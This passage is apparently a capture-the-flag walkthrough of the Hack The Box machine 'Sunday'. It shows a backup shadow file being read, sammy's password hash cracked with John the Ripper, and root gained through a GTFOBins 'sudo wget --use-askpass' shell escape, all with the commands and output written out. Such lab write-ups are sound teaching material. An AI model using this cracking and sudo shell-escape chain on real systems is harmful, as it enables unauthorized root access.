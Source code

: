 We login as sunny user and after use `sudo -l` we can see that we have sudo access to /root/troll so if we execute the file we have the following

```bash
ssh sunny@10.10.10.76 -p 22022

sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

But we cannot edit the file to execute it, so lets check more things. In the `/` directory we can find a folder called `backup`, inside we will find a hash for the sammy user

```bash
sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

We can retrieve the password with John The Ripper

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Sunday-10.10.10.76]
└─$ john -w=/usr/share/wordlists/rockyou.txt sammy_hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (?)     
1g 0:00:00:35 DONE (2023-07-12 11:40) 0.02780g/s 5666p/s 5666c/s 5666C/s domonique1..chrystelle
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

So now we can move laterally with sammy:cooldude! credentials

```bash
ssh sammy@10.10.10.76 -p 22022

-bash-4.4$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

We can use wget as sudo so we go to **[GTFOBins](https://gtfobins.github.io/gtfobins/wget/#shel)** and use wget to escalate privileges

```bash
sammy@sunday:/tmp$ TF=$(mktemp)
sammy@sunday:/tmp$ chmod +x $TF                                             
sammy@sunday:/tmp$ echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF                   
sammy@sunday:/tmp$ sudo wget --use-askpass=$TF 0                            
/tmp/tmp.xFnipa[1]: -e: not found [No such file or directory]
root@sunday:/tmp# whoami
root
```

And we are root